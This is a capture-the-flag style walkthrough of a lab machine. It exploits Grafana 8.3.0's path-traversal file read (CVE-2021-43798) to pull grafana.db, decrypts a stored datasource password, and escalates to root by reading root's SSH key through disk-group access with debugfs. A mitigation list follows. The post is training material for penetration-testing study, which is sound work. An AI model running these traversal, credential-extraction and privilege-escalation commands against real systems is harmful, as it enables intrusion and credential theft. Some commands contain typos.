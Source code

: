 ```yaml
---
title: Fanatastic
date: 2025-05-02
categories: [oscp, pg-practice]
tags: [oscp-preparation, walkthrough, Grafana, CVE-2021-43798, GO, disk-group-privesc ] 
image: pg-logo.png
media_subpath: /assets/img/posts/2025-05-02-fanatastic/
---
```


## Introduction

In this walkthrough, I explored a PG Practice Linux machine and discovered that it was running **Grafana v8.3.0**, which is known to have a public exploit enabling **arbitrary file read via Local File Inclusion (LFI)**. I used this exploit to access the `grafana.db` database located at `/var/lib/grafana/grafana.db`. Upon examining the database, I extracted an encrypted password, which I successfully decrypted using a publicly available **Go-based decryption tool**. The credentials allowed me to SSH into the machine as the **sysadmin** user. While enumerating my privileges, I noticed that the user was part of the **disk group**, which gave me access to raw disk devices. I leveraged this to read the **root user's private SSH key** directly from disk and then used that key to establish an SSH connection as root.

## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open 
```

![image.png](image.png)

### UDP

Check top 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

![image.png](image%201.png)

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open
```

## Services

### Port 22
We usually skip SSH.

## Web

### Port 3000

- Version - Grafana http

I saw a version at the bottom, searching for public exploits I found:
[ExploitDB](https://www.exploit-db.com/exploits/50581)

[Grafane Pentesting](https://exploit-notes.hdks.org/exploit/web/grafana-pentesting/)

Let’s try to read Grafana configuration file:

Reading users file I see:

```bash
curl --path-as-is http://:3000$IP/public/plugins/alertlist/../../../../../../../../etc/passwd -o passwd
```

![image.png](image%202.png)

I was able to read but it shows username and password as `admin:admin` which I already tried and it didn’t work:

![image.png](image%203.png)

Maybe default admin password is already changed and this configuration files shows just default. After a new user is created or default creds are changed: it’s stored in the grafana database which can be sqlite3 database (default, stored in `/var/lib/grafana/grafana.db`),

```bash
curl --path-as-is http://:3000$IP/public/plugins/alertlist/../../../../../../../../var/lib/grafana/grafana.db -o grafana.db
```

```bash
sqlite grafana.db
sqlite> .tables
sqlite> .dump user
```

![image.png](image%204.png)

```bash
password - 63f576276a6db59bb750c34f126945c1e941f9e3b21ab2f5be74ae00cc8abfc1b9f7ee5840f9abdae46efc0ee5350bd65aa8
salt - 0Vq2cDMrPt
```

As grafana hashes passwords differently I used [grafana2hashcat](https://github.com/iamaldi/grafana2hashcat) to convert grafana hashes to hashcat compatible format and tried to crack it.

```bash
hashcat -m 10900 grafana.hashcat --wordlist /usr/share/wordlists/rockyou.txt
```

**But it didn’t succeed.**

### Port 9090

- Version - Golang net/http server (Go-IPFS json-rpc or InfluxDB API)

## Exploitation

Let’s look at other tables may be we can find interesting information in them.


> If you have `file.db` you can open it with sqlite command line application, or with SQLite Browser application. If it consists many tables in order to find interesting ones first open with a text editor(vim, vi) and search for keywords like `password, username, host, creds` and so on.
{: .prompt-info }

![image.png](image%205.png)

In that tables I have found basicAuth user sysadmin which is the only low-level user that has shell on the target and basicAuthPassword for that user which is base64 encoded.

When decoding it we see some non-printable characters.

![image.png](image%206.png)

I already found one go [script](https://github.com/jas502n/Grafana-CVE-2021-43798?source=post_page-----792d7014d7a0---------------------------------------) that decrypts data source password 



![image.png](image%207.png)

```bash
go run AESDecrypt.go
```

![image.png](image%208.png)

So I think we should download that package, but I encountered repeating issues during the process. Then I found a website we can just run GO scripts, [GO Playground](https://go.dev/play/) I imported there the source code and changed `DataSourcePassword` field secret key is default one.

![image.png](image%209.png)

## Credentials

```bash
sysadmin : SuperSecureP@ssw0rd
```

Let’s try that password with ssh.

![image.png](image%2010.png)

That’s it we are in.

## Privilege Escalation

I already noticed that we are in a privileged group `disk` and our name is sysadmin :). 

```bash
df -h
```

![image.png](image%2011.png)

```bash
debugfs /dev/sda2
mdkir test
cat /root/.ssh/id_rsa
```

![image.png](image%2012.png)

[Disk Privilege Escalation](https://www.hackingarticles.in/disk-group-privilege-escalation/)

[HackTricks Disk Group Privilege Escalation](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/interesting-groups-linux-pe/index.html?highlight=disk#disk-group)

```bash
nano id_rsa
chmod 600 id_rsa
ssh -i id_rsa root@$IP
id
```

![image.png](image%2013.png)


> Add newline at the end of private key.
{: .prompt-warning }

## Mitigation

- **Update Software**: Always keep Grafana and other web applications up to date. Version 8.3.0 is outdated and contains known vulnerabilities.
- **Restrict File Permissions**: Sensitive files like `grafana.db` should have strict file permissions and not be world-readable.
- **Encrypt and Protect Credentials**: Store credentials using secure hashing (not reversible encryption) and ensure they are protected from unauthorized access.
- **Limit Group Privileges**: Avoid assigning users to privileged groups like `disk`, which allow access to raw devices and critical data.
- **Monitor for LFI Exploits**: Use web application firewalls (WAF) or intrusion detection systems (IDS) to detect and block LFI attempts.
- **Audit and Hardening**: Regularly audit group memberships and system configurations to enforce the principle of least privilege.
